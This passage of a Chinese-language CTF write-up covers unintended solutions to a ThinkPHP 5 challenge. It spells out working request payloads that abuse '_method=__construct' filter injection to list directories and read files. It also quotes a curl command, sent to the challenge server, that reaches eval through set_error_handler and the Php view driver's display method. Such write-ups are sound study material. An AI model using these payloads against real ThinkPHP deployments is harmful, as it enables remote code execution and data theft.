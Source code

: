 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

不过比较遗憾的是 `error_log` 被我不小心加到了 `disable_functions` 里。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### 非预期4

`_method=__construct&filter[]=scandir&filter[]=var_dump&method=GET&get[]=/var/www/html/public/`  
`_method=__construct&filter[]=highlight_file&method=GET&get[]=/var/www/html/public/index.php`

直接列目录+文件读取上车

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABEWVn2ibXPgrCl3CGSr8JuMorfApfibMY46CeGgT5Y6VP01iaLLd2Ls8HlA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABE5KookD4MPnWJvmGiazyVZDNt7OPN0LeCSzx1BbBGU4AouFpQ9mKT9HA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

### 算是半个预期的非预期5

payload来自国外的 `Super Guesser` 战队。

`curl --data "path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3N1cHBwLnBocCcsJ3N1cGVyIGd1ZXNzc3NlcnMnKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET" "http://101.32.184.39/?s=captcha&g=implode" --output - > a.html`

首先我之前并不知道 `::` 可以直接调用非静态方法，问了一些师傅他们也表示没注意过。

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABEjLHnSV30R3icrEup4KsuThjlEUl4NyH8clR0ZkbwEKoWcr47k4sbhOw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

不过有 `$this` 的话就不行了。

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABE4QYTY4pbXpNDZmAIbWADqQwImd7oBqBlS0pfHB6h0jTzqNAicRgO9Vg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

当开启了 `error_reporting(E_ALL);` 时，就会报一个 `PHP Deprecated` ，但是不影响程序正常运行。

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABEknxLXT2dysD7RicLR8rXoZH0YuFKBfku5CUFfPf8HJlpSSgB8Mb1FWg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

上面提到了 `\think\view\driver\Php` 类的 `display` 方法可以调用 `eval` ，且里面并没有调用 `$this` 。

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABEyQIv2IIzvgYa3URj8ia8XuicJibS3olv8TaibiaIXxTqp5IaAVmks0kKFVA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

而 `tp5` 默认就调用了 `error_reporting(E_ALL)` ，且有一套内置的错误处理机制。上面预期解也提到了即使报了 `warning` 程序也会中止执行。

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABEiazjb0LNXtsLORiaz33byK9ribAAa0ZzngZRycEmUicWLuOdRN3JMJGrfA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

`set_error_handler()` 函数设置用户自定义的错误处理程序，会绕过标准 PHP 错误处理程序。`set_exception_handler()` 函数设置用户自定义的异常处理函数。`register_shutdown_function()` 函数会注册一个会在PHP中止时执行的函数  

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABETgetoDKlpqrShdfDybBoicFpgoMMcRwW2vxcvJpB7Lw7iaPZ6oaTs4Ew/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

这个payload首先调用 `set_error_handler` 覆盖掉了默认的错误处理函数 `appError` 为 `implode` 。

![](https://mmbiz.qpic.cn/mmbiz_png/AvAjnOiazvncZfiaQSyOqIfOMibtcqU2ABEXRNpmrzY8B977HYISZuiaVx5licia4TaOsVMUzPujsOpx2D6SKphia9vAw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
